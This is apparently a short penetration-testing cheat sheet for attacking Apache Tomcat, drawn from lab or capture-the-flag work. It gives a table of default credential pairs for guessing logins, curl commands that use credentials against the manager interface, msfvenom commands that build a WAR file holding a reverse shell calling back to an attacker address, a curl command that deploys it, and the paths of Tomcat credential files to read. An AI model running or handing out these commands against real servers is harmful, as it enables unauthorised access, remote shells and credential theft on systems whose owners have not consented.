


____
# Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

# Manager

http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```

# Malicious war

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f war > shell.war
```

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.21 lport=443 -f war -o shell.war
```

## curl to upload payload

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/shell --upload-file shell.war 
```

That’s:

- `-u 'tomcat:$3cureP4s5w0rd123!'` - the creds
- `/manager/text/deploy` - text-based path for `deploy` command
- `?path=/shell` - the path I want the application to live at
- `--upload-file rev.10.10.14.18-443.war` - war file to upload with HTTP PUT

# Info leak



```
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

view page source


